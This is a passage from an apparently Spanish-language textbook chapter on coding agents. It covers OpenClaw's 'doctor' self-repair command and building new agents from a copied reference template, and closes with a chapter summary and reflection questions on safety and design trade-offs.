Un prerrequisito importante para el autoinicio de un Agente es su capacidad de autorreparación. El comando `doctor` de OpenClaw es precisamente una manifestación de esta capacidad, pudiendo detectar automáticamente tres categorías de problemas:

- **Anomalías de configuración**: Tokens OAuth expirados, formatos de configuración heredados, conflictos de puertos.
- **Problemas de estado**: Archivos de bloqueo de sesión obsoletos, dependencias de complementos faltantes.
- **Problemas de salud del servicio**: Gateway fuera de ejecución, imágenes de sandbox faltantes.

Luego aplica una estrategia de reparación por capas para resolverlos automáticamente: las reparaciones seguras (normalización de configuración, limpieza de archivos de bloqueo) se ejecutan automáticamente; mientras que las operaciones con riesgo (reinicios de servicios, sobrescritura forzada de configuración) requieren confirmación del usuario.

Conviene evitar exageraciones aquí: problemas frecuentes como tokens expirados, archivos de bloqueo o conflictos de puertos cuentan con reglas de detección claras y acciones de reparación fijas, por lo que `doctor` los cubre **apoyándose en un conjunto de comprobaciones deterministas**, de forma similar a los scripts de mantenimiento tradicionales. Lo que demuestra verdaderamente la capacidad del Agente es el segundo nivel: para problemas complejos no cubiertos por reglas deterministas, `doctor` los entrega al LLM para analizar registros de errores, comprender la semántica de archivos de configuración e inferir relaciones de causa y efecto para generar soluciones de reparación orientadas. Las comprobaciones deterministas garantizan la reparación estable de problemas comunes, y el LLM actúa como respaldo para casos complejos en la cola larga: la coordinación de ambos niveles permite que `doctor --fix` resuelva automáticamente una parte considerable de los problemas comunes del Gateway. Esta modalidad de "Agentes reparando Agentes", cuando el objeto de trabajo del Agente deja de ser un sistema externo para convertirse en su propio entorno de ejecución, transforma la capacidad de autorreparación desde un adaptador de sistema hacia la infraestructura del autoinicio del Agente.

**Técnicas clave para que un Agente escriba otros Agentes.**

Crear un Agente de alta calidad es mucho más complejo que generar código de aplicación común, ya que exige una comprensión profunda de los patrones de arquitectura, mejores prácticas y trampa comunes de los Agentes. Si se carece de este conocimiento profesional del dominio, incluso el modelo de generación de código más potente podría crear Agentes con defectos estructurales graves. Entre los defectos más comunes se encuentran:

1. **Informalidad en la gestión del contexto**: No adoptar el formato de contexto estandarizado del Capítulo 2, convertir las trayectorias en texto plano para meterlas en el contexto, ignorar la optimización de KV Cache aportada por mensajes estructurados, y presentar errores límite en los bucles de llamadas a herramientas.
2. **Falta de estandarización en el diseño de herramientas**: Descripciones escuetas, ausencia de explicaciones sobre límites de uso y listas negras de escenarios no aptos, y parámetros sin ejemplos concretos.
3. **Desactualización en la selección tecnológica**: Tendencia a utilizar modelos y API comunes en los datos de entrenamiento pero ya obsoletos. Solución: mantener una base de conocimiento SOTA o dotar al Agente de capacidad de búsqueda.
4. **Desconexión con el ecosistema externo**: Uso de API descontinuadas, bibliotecas sin mantenimiento o patrones defectuosos.

La ruta más efectiva para resolver estos problemas no consiste en agotar todas las reglas en los prompts, sino en **proporcionar implementaciones de Agentes de alta calidad como plantillas de referencia**, guiando al Agente de generación de código a modificarlas sobre esa base en lugar de comenzar desde cero.

La "generación basada en plantillas" presenta ventajas claras: el código de la plantilla es en sí mismo el portador de las mejores prácticas, resultando mucho más fácil para el Agente acertar al modificar sobre una plantilla que al escribir desde cero, conservando de forma natural las buenas decisiones de arquitectura sin necesidad de explicar cada regla en los prompts.

Al recibir la tarea de desarrollar un nuevo Agente, el Agente debe copiar primero su propio código (u otra implementación de alta calidad verificada) y luego realizar modificaciones orientadas: ajustando los prompts del sistema para coincidir con el nuevo rol, reemplazando o añadiendo/eliminando herramientas para adaptarse a las nuevas funciones, y modificando la lógica de negocio mientras conserva el marco de arquitectura. Esta modalidad de "autorreplicación y modificación adaptativa" garantiza que el nuevo Agente herede las ventajas técnicas nucleares al tiempo que permite la diferenciación en dimensiones específicas, de forma análoga a la replicación genética con variación en biología.

> **Experimento 5-14 ★★★: Desarrollar un Agente capaz de crear Agentes**
>
> **Objetivo del experimento**: Construir un Coding Agent con capacidad de metaprogramación (Metaprogramming: escribir programas capaces de generar o modificar otros programas), capaz de crear nuevos sistemas de Agentes de forma automática según las necesidades del usuario, garantizando el cumplimiento de las mejores prácticas.
>
> **Solución técnica**: Proporcionar al Coding Agent una implementación de Agente de alta calidad como plantilla de referencia (se puede utilizar el proyecto `ch5/coding-agent` en sí). Al recibir la demanda de crear un nuevo Agente, el Agente copia primero el código de esta plantilla y realiza modificaciones orientadas según las necesidades concretas del usuario.
>
> **Criterios de aceptación**: El Agente generado se ejecuta con éxito y completa las tareas básicas. Verificar que adopte formatos de mensaje estandarizados y protocolos de llamadas a herramientas, utilizando los modelos y API recomendados actualmente. Probar la corrección del contexto y la gestión de estado en conversaciones de múltiples rondas. Comparar los modos de generación desde cero frente a la modificación basada en plantillas, verificando las ventajas de esta última en calidad y eficiencia.


El autoinicio del Agente representa la aplicación extrema de la capacidad de generación de código: los Agentes capaces de crear Agentes logran la autorreproducción de la inteligencia. Hasta aquí se ha estructurado la línea principal completa desde los cimientos del Coding Agent hasta los diversos valores de la generación de código y el autoinicio.

## Resumen del capítulo

El núcleo abordado en este capítulo ha sido siempre el mismo: el código no es solo una herramienta para escribir programas, sino el lenguaje para el pensamiento formalizado y la expresión precisa del Agente.

La conclusión central de la sección de Ingeniería de Harness es que la alta madurez del Coding Agent no se debe a que los modelos de generación de código sean especialmente potentes, sino a que las décadas de infraestructura acumuladas en la ingeniería de software (suites de pruebas, sistemas de tipos, control de versiones) constituyen de forma natural un Harness potente. Esta conclusión merece extenderse a otros escenarios de Agentes. La sección de recuperación de fallos y errores presentó la otra cara del mismo tema: la confiabilidad de un Agente no depende de si el modelo comete errores o no, sino de si cada clase de fallo cuenta con sus correspondientes rutas de detección, recuperación y terminación.

La segunda parte mostró el amplio valor de la generación de código más allá de la programación, correspondiendo a las seis dimensiones del texto principal:

- **Herramienta de pensamiento**: Compensar las deficiencias del pensamiento probabilístico mediante el cálculo simbólico y la resolución de restricciones.
- **Restricción para reglas de negocio**: Expresar reglas de negocio sin ambigüedades, ofreciendo una línea de defensa determinista en escenarios de operaciones irreversibles, con un valor de seguridad que supera con creces el costo de implementación.
- **Generación multimedia**: Crear contenidos multimodales como PPT y video mediante el mecanismo Proponente-Revisor; la elección entre la generación de código y los modelos generativos depende de la complejidad intrínseca del producto y de sus requisitos de precisión.
- **Adaptador del sistema**: Seguir automáticamente la evolución de los formatos para lograr la automatización completa del parseo de registros y el diagnóstico de problemas.
- **UI generativa**: Construir dinámicamente formularios, gráficos de visualización e incluso aplicaciones personalizables completas, superando las limitaciones del texto plano.
- **Autoinicio del Agente**: Reparar y crear Agentes de la misma especie mediante código, logrando Agentes capaces de crear Agentes.

El valor del código para un Agente radica en que es tanto un medio para completar tareas como un mecanismo para acumular conocimiento, crear herramientas y optimizarse a sí mismo: una verdadera "metacapacidad".

Hasta aquí hemos combinado contexto, conocimiento, herramientas y capacidad de programación en la arquitectura básica de un Agente de propósito general; la generación de código es su metacapacidad más general. Sin embargo, los cinco primeros capítulos todavía presuponen que el Agente y el mundo actúan por turnos. El Capítulo 6 completa la última pieza de «Construir Agentes» al extender los espacios de observación y acción a eventos asíncronos, voz, pantallas y el mundo físico; una vez completado ese paso, el Capítulo 7 pasa a la evaluación y la mejora continua.

## Preguntas de reflexión

1. ★★ La generación de código se denomina la "metacapacidad" del Agente. Sin embargo, la ejecución de código introduce riesgos de seguridad: el código generado por el Agente puede contener vulnerabilidades, bucles infinitos o agotamiento de recursos. El aislamiento en sandbox resuelve parte de los problemas, pero también limita las capacidades del código (como el acceso a la red o al sistema de archivos). ¿Cómo encontrar el punto de equilibrio óptimo entre la seguridad y las capacidades?
2. ★★★ El autoinicio del Agente (Agentes capaces de crear Agentes) logra la "autorreproducción de la inteligencia". Sin embargo, cada autoinicio puede introducir nuevos sesgos o errores. ¿Se acumularán estos errores entre generaciones? ¿Cómo prevenir la degradación en el autoinicio de los Agentes?
3. ★★ Al procesar el parseo de registros, el Agente de generación de código puede seguir automáticamente la evolución de los formatos. Sin embargo, si el cambio de formato se debe a un error y no a una modificación prevista, la adaptabilidad del Agente podría terminar ocultando el problema. ¿Cómo debería diferenciar el Agente entre "un cambio que requiere adaptación" y "una anomalía que debe reportarse"?
4. ★★ Este capítulo utilizó repetidamente el mecanismo Proponente-Revisor en la generación de PPT, edición de video y visualización de registros. Si las preferencias estéticas del Reviewer no coinciden con las del usuario final (por ejemplo, si el Reviewer considera que la densidad de información es adecuada pero el usuario la percibe demasiado apretada), el bucle de retroalimentación convergerá a un óptimo local incorrecto. ¿Cómo integrar la retroalimentación de preferencias del usuario en el bucle del Reviewer?
5. ★★ Este capítulo mostró múltiples formas en que el Coding Agent deposita en el repositorio de código la experiencia obtenida durante la ejecución y depuración: escribiendo archivos en la base de conocimiento, actualizando documentos de arquitectura, manteniendo archivos de instrucciones del proyecto y consolidando secuencias de operaciones como código. Si esta experiencia se sintetiza aún más en reglas dentro de los prompts del sistema, el conjunto de reglas se expandirá continuamente con el tiempo. ¿Cómo realizar la "recolección de basura" sobre las reglas acumuladas para identificar y limpiar elementos redundantes u obsoletos? ¿Por qué una modificación exitosa de código aún no puede considerarse directamente como la evolución continua discutida en el Capítulo 9?
6. ★ "Los equipos amigables con el trabajo remoto suelen ser también amigables con los Agentes de IA." ¿Qué tan alejado está el equipo u organización en el que trabajas de estar "preparado para IA (AI-ready)" en cuanto a documentación del conocimiento? ¿Cuál es el mayor obstáculo?
7. ★★★ Simon Willison propuso la "Tríada Mortal" de los Agentes (acceso a datos privados, exposición a contenido no confiable y capacidad de comunicación externa), a la cual este capítulo añadió un cuarto elemento: la memoria persistente. En un entorno de producción que deba gestionar simultáneamente estos cuatro elementos, ¿cómo diseñarías la estrategia de seguridad?
8. ★★ El modo Artifact permite que el Agente genere código SQL o de visualización para ser ejecutado directamente por el frontend, omitiendo el procesamiento de grandes volúmenes de datos por parte del LLM. Comparado con el modo tradicional donde el "Agente entrega directamente la respuesta", ¿cuáles son las ventajas y desventajas de este modo de división del trabajo de "el Agente genera el código y el sistema lo ejecuta"? Además, el SQL generado podría ejecutar operaciones destructivas y el HTML generado podría contener vulnerabilidades. ¿Cómo garantizar la seguridad del sistema?
9. ★★ Codificar las reglas de negocio como validaciones internas en las herramientas basadas en los datos reales de la base de datos, y guiar al modelo a verificar las políticas antes de llamar mediante el diseño de parámetros, equivale esencialmente a restringir el comportamiento del Agente con la estructura del código. ¿Qué ventajas y limitaciones presenta este modo de "código como reglas" en comparación con las reglas en lenguaje natural?
